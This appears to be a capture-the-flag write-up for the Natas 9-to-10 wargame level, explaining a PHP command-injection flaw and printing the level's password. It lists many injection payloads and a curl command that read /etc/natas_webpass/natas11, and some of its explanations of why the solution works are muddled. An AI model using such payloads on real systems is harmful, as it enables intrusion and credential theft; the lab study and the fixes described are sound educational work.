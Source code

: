 # 🔐 Natas Level: Natas9--->Natas10



### 📂 Execution Process 

👉 
- write this command in the input area
```
z /etc/natas_webpass/natas11
```

<img width="1466" height="874" alt="Screenshot 2025-09-30 at 5 38 55 PM" src="https://github.com/user-attachments/assets/7c0a7a41-542c-4d83-8055-5daf35010e0d" />

### 📄 Password found:
👉 
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

### NOTES

1) Short one-line summary
The web page takes a value called "needle" from you and uses it inside a shell command. Because the input goes straight into the shell, you can sometimes make the server run other commands. This is called command injection.

2) What the PHP code does (simple)
- The server reads the request parameter named "needle".
- If it is not empty, it checks for some illegal characters like ; | &.
- If those characters are found, it prints "Input contains an illegal character!".
- Otherwise it runs a shell command using that input:
  passthru("grep -i $key dictionary.txt");
- So the server runs: grep -i <your input> dictionary.txt

3) Why that is dangerous (easy words)
- The server treats your text as part of a shell command.
- If you put special tokens, the shell might run extra commands.
- Example risk: reading files like /etc/natas_webpass/natasX which contain the password.

4) Common ways to inject (short)
- Semicolon: ;  (runs next command)
- Pipe: |  (send output to next command)
- Ampersand combos: && or &  (run next command or background)
- Backticks: `command`  (runs command and substitutes output)
- Dollar-substitution: $(command)  (same as backticks)
- Newline / CRLF: (line break) can act like a command separator in some setups
- Parentheses: (command) runs a subshell

5) Why blacklisting ;|& is not enough (very simple)
- Blacklist blocks only these characters. But attackers can still use:
  - Backticks `...`
  - $(...)
  - Newlines %0A or %0D%0A
  - Parentheses (command)
- That means server is still vulnerable even after the small filter.

6) Small table — compare approaches

| Approach (what server does) | Is it safe? | Short comment |
|-----------------------------|-------------|---------------|
| No shell, search inside PHP  | Safe        | Best. No shell used at all. |
| Use escapeshellarg() then shell | Safer     | Good if you must call shell. |
| Blacklist a few chars (like ;|&) | Not safe  | Easy to bypass with $(), backticks, newline. |

7) Easy examples to test what is allowed (replace natas10/11 as needed)
- Test parentheses:
  ?needle=(echo PAREN_OK)
- Test $():
  ?needle=$(echo DOLLAR_OK)
- Test backticks:
  ?needle=`echo BACK_OK`
- Test newline:
  ?needle=foo%0Aecho HACK
- If you see PAREN_OK, DOLLAR_OK, BACK_OK or HACK, that method works.

8) Why you saw (z /etc/natas_webpass/natas11)
- `z` is not magic — it was just the first word inside parentheses.
- Example: (z /etc/natas_webpass/natas11) means shell tried to run a command named "z" with that file as argument.
- Possible reasons:
  1) You or the browser sent `z` by mistake.
  2) Server echoed your input instead of executing.
  3) Server transformed your input and it became `z`.
- Quick test to check: ?needle=(echo PAREN_OK)
  - If PAREN_OK shows, parentheses execute.
  - Then try ?needle=(cat /etc/natas_webpass/natas11) to read the password.

9) Exact payloads to try (one-line, copy to address bar) — for Natas10 -> read natas11
- Newline method:
  ?needle=foo%0Acat /etc/natas_webpass/natas11
- CRLF (carriage return + newline):
  ?needle=foo%0D%0Acat /etc/natas_webpass/natas11
- Grep-empty-file trick with newline:
  ?needle=foo%0Agrep -i "" /etc/natas_webpass/natas11
- Parentheses:
  ?needle=(cat /etc/natas_webpass/natas11)
- Dollar-substitution:
  ?needle=$(cat /etc/natas_webpass/natas11)
- Backtick:
  ?needle=`cat /etc/natas_webpass/natas11`
- URL-encoded $() if needed:
  ?needle=%24%28cat%20/etc/natas_webpass/natas11%29
- URL-encoded backticks if needed:
  ?needle=%60cat%20/etc/natas_webpass/natas11%60

10) Small step-by-step checklist (do in order)
- Step A: Test which injection works:
  - Try ?needle=(echo PAREN_OK)
  - Try ?needle=$(echo DOLLAR_OK)
  - Try ?needle=`echo BACK_OK`
  - Try ?needle=foo%0Aecho HACK
- Step B: If any test prints OK or HACK, replace echo with the cat command:
  - If PAREN_OK worked, try ?needle=(cat /etc/natas_webpass/natas11)
  - If DOLLAR_OK worked, try ?needle=$(cat /etc/natas_webpass/natas11)
  - If HACK from newline, try ?needle=foo%0Acat /etc/natas_webpass/natas11
- Step C: If output is not visible in browser, use curl to see raw response:
  curl -i 'http://natas10.natas.labs.overthewire.org/?needle=foo%0Acat%20/etc/natas_webpass/natas11' -u 'natas10:PASSWORD'
  (Replace PASSWORD with your natas10 password.)

11) How the server should fix this (learn part)
- Best fix: Do not call shell. Use PHP to open the file and search text in PHP code.
- If shell must be used, always escape arguments:
  $safe = escapeshellarg($key);
  passthru("grep -i $safe dictionary.txt");
- Or use a whitelist: allow only letters, numbers, space, dash, underscore:
  if (preg_match('/[^a-zA-Z0-9 _-]/', $key)) { error }

12) Quick ethics reminder (one line)
Only use these techniques on CTFs (like Natas), on machines you own, or with explicit permission.

End of notes.
